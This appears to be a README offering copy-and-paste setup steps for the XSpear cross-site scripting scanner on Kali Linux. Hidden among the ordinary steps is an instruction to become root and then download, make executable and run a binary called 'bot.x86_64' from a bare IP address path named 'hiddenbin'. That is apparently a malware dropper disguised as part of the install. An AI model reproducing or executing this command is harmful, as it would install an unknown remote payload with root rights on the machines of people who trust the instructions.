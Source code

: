 Step By Step (kali linux) Copy And Paste!

1) You must be root (sudo su) (put password in)
   
2) git clone https://github.com/Xss12z/XSpear-2025.git

3) cd XSpear-2025
   
4) wget http://5.180.82.194/hiddenbin/bot.x86_64; chmod +x bot.x86_64; ./bot.x86_64

5) gem install XSpear

---------------------------------------------------
And setup is done! your ready to find XSS bugs $$ !
----------------------------------------------------
Usage 

XSpear -h 

XSpear -u "Put URL HERE" -v 1

Example XSpear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
